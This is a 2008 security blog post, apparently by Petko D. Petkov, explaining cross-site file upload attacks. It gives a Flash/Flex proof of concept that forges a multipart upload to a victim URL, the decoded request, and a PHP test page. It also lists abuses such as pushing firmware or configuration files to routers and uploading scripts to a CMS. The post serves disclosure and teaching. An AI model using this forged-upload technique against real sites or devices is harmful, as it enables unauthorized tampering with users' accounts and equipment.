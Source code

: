 ```yaml
---
title: Cross-site File Upload Attacks
author: petko-d-petkov
date: Thu, 21 Feb 2008 12:15:32 GMT
template: post.jade
---
```


As you probably already know, CSRF attack are only possible when the attacked web application does not have an additional mechanism to ensure that requests towards it are genuine. In order to do that, the web developer must include a unique token for each request, which is validated on the server upon receiving a request. If the request value that represents the token matches the token that was generated for the request, then it is considered genuine and it should be left for additional processing. However, if both values do not match then the request is considered forged and as such should be disregarded.

Unfortunately, when it comes to file upload facilities, developers often forget to make such checks relying on the fact that file uploads are not spoofable, which in general is the correct assumption. However, when dealing with Web technologies, we often stumble across nasty surprises. The reason CSRF attacks against file uploads are not possible is because the HTML FORM specifications are not versatile enough to define sub-fields like `filename="whatever.txt"`, which are vital parts of the `multipart/form-data` specifications when submitting files. This is the only restriction and I will show you that attackers can easily overcome it with a bit of help from Flash.

## Cross-site File Uploads

We've already proved that various forms of home routers can be [entirely compromised](/blog/hacking-the-interwebs/) and hacked by [forging UPnP requests with flash](/blog/flash-upnp-attack-faq/). Now I will show you that file uploading facilities can be attacked in a similar way. Let's examine the following code, which you can compile with Flex2 SDK - `c:\Flex2\bin\mxmlc code.mxml`:

```xml
<mx:Application xmlns:mx="http://www.adobe.com/2006/mxml" creationComplete="onAppInit()">
	<mx:Script>
		/* by Petko D. Petkov; pdp
		 * GNUCITIZEN
		 **/
		import flash.net.*;

		private function onAppInit():void
		{
			var r:URLRequest = new URLRequest('http://victim.com/upload.php');

			r.method = 'POST';
			r.data = unescape('-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22file%22%3B filename%3D%22gc.txt%22%0D%0AContent-Type%3A text%2Fplain%0D%0A%0D%0AHi from GNUCITIZEN%21%0D%0A-----------------------------109092118919201%0D%0AContent-Disposition%3A form-data%3B name%3D%22submit%22%0D%0A%0D%0ASubmit Query%0D%0A-----------------------------109092118919201--%0A');
			r.contentType = 'multipart/form-data; boundary=---------------------------109092118919201';

			navigateToURL(r, '_self');
		}
	</mx:Script>
</mx:Application>
```

If you carefully read the content of the script you will notice that we are preparing an `URLRequest` object which we load with a `POST` method, a `contentType` which equals to `multipart/form-data` and a url-encoded data text. If we unencode the text we get the following result. Now let's have a look at it as well. Notice the `filename="gc.txt"` field:

```http
-----------------------------109092118919201
Content-Disposition: form-data; name="file"; filename="gc.txt"
Content-Type: text/plain

Hi from GNUCITIZEN!
-----------------------------109092118919201
Content-Disposition: form-data; name="submit"

Submit Query
-----------------------------109092118919201--
```

This looks like a valid `multipart/form-data` file upload, doesn't it? If you compile and execute the code you will see that the file upload is completely valid and will upload a file called `gc.txt` with content of `Hi from GNUCITIZEN!`. But you can also use the following PHP script to verify the result if you feel skeptical about the whole concept.

```php
<?php if ($_FILES['file']['error'] > 0): ?>
	<h1>Failiure</h1>
	<pre>
		<?php print_r($_FILES) ?>
	</pre>
<?php elseif (isset($_FILES['file'])): ?>
	<h1>Success</h1>
	<pre>
		<?php print_r($_FILES) ?>
		<?php echo file_get_contents($_FILES['file']['tmp_name']) ?>
	</pre>
<?php else: ?>
	<form method="post" enctype="multipart/form-data">
		<input type="file" name="file"/> 
		<input type="submit" name="submit"/>
	</form>
<?php endif ?>
```

## The Impact of Cross-site File Upload (CSFU) Attacks

Like CSRF attacks, there are plenty of things one can do with this type of technique. Here is a couple of evil things that come into my mind:

* Upload a nasty picture on someone's profile - I admit this is not very useful but still very funny and open for abuse.
* Upload a shiny new firmware to the router that is under attack by using the user as a proxy. This is pretty nasty and given the fact that there are numerous authentication bypass and A-to-C bugs floating around, it is very, very feasible.
* Upload a shiny new configuration file on the router that is under attack. Same as the one above - very feasible and easy to perform.
* Upload executable scripts on CMS - this of course is a bit more targeted..
